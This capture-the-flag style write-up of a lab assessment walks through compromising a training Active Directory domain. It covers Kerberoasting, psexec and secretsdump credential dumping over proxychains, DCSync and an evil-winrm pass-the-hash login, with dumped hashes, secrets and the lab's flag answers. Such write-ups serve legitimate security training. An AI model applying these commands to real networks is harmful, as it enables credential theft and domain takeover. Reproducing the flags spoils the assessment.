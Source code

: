 # AD Enumeration & Attacks - Skills Assessment Part I

### Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

### Questions

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption><p>got a revshell and obtained the flag.</p></figcaption></figure>

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>svc_sql</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

**Crack the account's password. Submit the cleartext value.**

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>lucky7</p></figcaption></figure>

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

we have to know what IP does MS01 has&#x20;

```
Resolve-IPAddress -ComputerName MS01
```

<figure><img src="../../../.gitbook/assets/image (20) (3).png" alt=""><figcaption><p>172.16.6.50</p></figcaption></figure>

When SMB scan was performed, there were ADMIN$ and C$ shares, which were read and writable.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Admin share writable</p></figcaption></figure>

Next logical step is to run impacket-psexec to gain a shell using this credential.

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> systeminfo
 
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA100
Original Install Date:     3/30/2022, 3:56:23 AM
System Boot Time:          7/5/2023, 10:04:57 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,198 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,000 MB
Virtual Memory: In Use:    799 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.50
                                 [02]: fe80::fc35:9ed3:e474:d620
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32> 

```

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>spn$<em>r0ast1ng_on</em>@n_0p3n_f1re</p></figcaption></figure>

Note that RDP is also available for this host.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption><p>nothing useful</p></figcaption></figure>

```
proxychains impacket-secretsdump INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50 -outputfile inlanefreight_hashes 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9521a9e7c65245ab8cdd792e7f6d20df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801
INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:7ec92cbf5c0978d63da9ca099e9e15131fa9f8f83f6e0c850dc27fbf5bd3c294
INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:34eddfc4c6391fe4fcea4cd8e6f000aa
INLANEFREIGHT\MS01$:des-cbc-md5:1a2c5df13885f80b
INLANEFREIGHT\MS01$:plain_password_hex:19e615bcf39b1aa4ee984e52f1d993a21c6943bd6d90ca901ff0a676620f637ee41049607477f7560972a707da615942143dd3ec94e50b4a73d1539f51e312b591594d5b365a52d56cfc4cc2bbe4cd5014165fd6e9ba47530321d9361e63a6de7400435ab03b6c15e45f222bb511637855b14f7807cd3b29622540ffadf25300326fea2d197d42dd0e70eb082147e355596f39ee809ce68092d89e56f6427824d436b3a932da26f4bfcf7cf0ec8024e222af81521df95eeca49d8a9260baafc27725e940c28299dfa54a6e997aa673d77f00d0bdf7a389aaf4cf0037f6c9d8165b6b185ec135b59eda45b74170a91ec6
INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:e97a877bf59d4102321bded442896bee:::
[*] DefaultPassword 
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8dbe842a7352000be08ef80e32bb35609e7d1786
dpapi_userkey:0xb20d199f3d953f7977a6363a69a9fe21d97ecd19
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
[*] Cleaning up... 
[*] Stopping service RemoteRegistry

```

```
tpetty:Sup3rS3cur3D0m@inU2eR
```

**Submit this user's cleartext password.**

```
Sup3rS3cur3D0m@inU2eR
```

**What attack can this user perform?**

```
$sid = Convert-NameToSid tpetty
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-All</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-In-Filtered-Set</p></figcaption></figure>



DCSync

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

First we have to know what IP is the DC by using the following command.

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption><p>172.16.6.3</p></figcaption></figure>

```
proxychains impacket-secretsdump -just-dc INLANEFREIGHT/tpetty:'Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -outputfile ilf_dcsync
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We got the administrator hash, I tried to crack it but doesn't seems to work the next step will be pass the hash attack because of the dcsync command seems to be going on forever with more than thousand people already.

`27dedb1dab4d8545c6e1c66fba077da0`

xfreerdp didn't work but evil-winrm did

```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>r3plicat1on_m@st3r!</p></figcaption></figure>
